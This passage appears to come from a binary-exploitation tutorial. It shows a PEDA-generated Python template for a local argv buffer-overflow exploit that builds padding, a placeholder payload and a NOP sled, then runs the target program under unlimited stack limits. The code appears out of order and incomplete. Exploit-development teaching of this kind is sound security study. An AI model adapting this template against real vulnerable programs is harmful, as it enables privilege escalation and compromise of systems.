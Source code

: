 def nops(size=1024):
    return "\x90"*size

def int2hexstr(num, intsize=4):
    if intsize == 8:
        if num < 0:
            result = struct.pack("<q", num)
        else:
            result = struct.pack("<Q", num)
    else:
        if num < 0:
            result = struct.pack("<l", num)
        else:
            result = struct.pack("<L", num)
    return result

i2hs = int2hexstr

def exploit(vuln):
    padding = pattern(0)
    payload = [padding]
    payload += ["PAYLOAD"] # put your payload here
    payload = list2hexstr(payload)
    args = [vuln, payload]
    env = {"PEDA":nops()}
    resource.setrlimit(resource.RLIMIT_STACK, (-1, -1))
    resource.setrlimit(resource.RLIMIT_CORE, (-1, -1))
    os.execve(vuln, args, env)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        usage()
    else:
        exploit(sys.argv[1])
{{< / highlight >}}
We have to modify this to include our payload from the gdb session, the output
looks like the following

{{< highlight python >}}
#!/usr/bin/env python
#
# Template for local argv exploit code, generated by PEDA
#
import os
import sys
import struct
import resource
import time

def usage():
    print "Usage: %s target_program" % sys.argv[0]
    return
